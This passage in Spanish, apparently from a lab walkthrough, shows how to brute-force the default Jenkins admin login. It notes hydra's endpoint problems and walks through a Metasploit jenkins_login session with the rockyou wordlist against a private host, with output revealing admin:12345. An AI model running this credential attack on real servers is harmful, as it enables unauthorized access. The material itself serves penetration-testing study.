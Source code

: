 
<h2 id="fuerzaBruta">Aplicando Fuerza Bruta a Login de Jenkins</h2>

Sabemos que existe un usuario por defecto en **Jenkins**, que es el **usuario admin**.

Pero no sabemos su contraseña, entonces, lo ideal es aplicar fuerza bruta para descubrir la contraseña.

Lo haremos con dos herramientas:
* Metasploit Framework: Módulo `auxiliary/scanner/http/jenkins_login`
* Script de GitHub

Esta vez, no utilizaremos la herramienta **hydra** porque existe un problema con el endpoint al que va la data enviada del login de **Jenkins**.

No encontré el problema como tal, pero parece que el endpoint `/j_spring_security_check`, que es de versiones actuales de **Jenkins**, crea problemas de pérdida de data con **hydra**, es decir, lo que envía **hydra** no lo recibe el login de **Jenkins**, o da falsos positivos, aunque al menos es lo que logré notar.

En cambio, el endpoint `/j_acegi_security_check`, que es de versiones antiguas al 2012, sí se le puede aplicar fuerza bruta con **hydra**.

<br>

<h3 id="Metasploit">Aplicando Fuerza Bruta con Módulo jenkins_login de Metasploit Framework</h3>

Inicia **Metasploit Framework** y escoge el módulo `auxiliary/scanner/http/jenkins_login`:
```bash
msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use auxiliary/scanner/http/jenkins_login
msf6 auxiliary(scanner/http/jenkins_login) >
```

Configura el módulo:
```bash
msf6 auxiliary(scanner/http/jenkins_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/http/jenkins_login) > set RHOSTS 192.168.10.150
RHOSTS => 192.168.10.150
msf6 auxiliary(scanner/http/jenkins_login) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(scanner/http/jenkins_login) > set TARGETURI /
TARGETURI => /
msf6 auxiliary(scanner/http/jenkins_login) > set VERBOSE false
VERBOSE => false
```

Ejecuta el módulo:
```bash
msf6 auxiliary(scanner/http/jenkins_login) > exploit
[+] 192.168.10.150:8080 - Login Successful: admin:12345
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Una contraseña bastante simple.
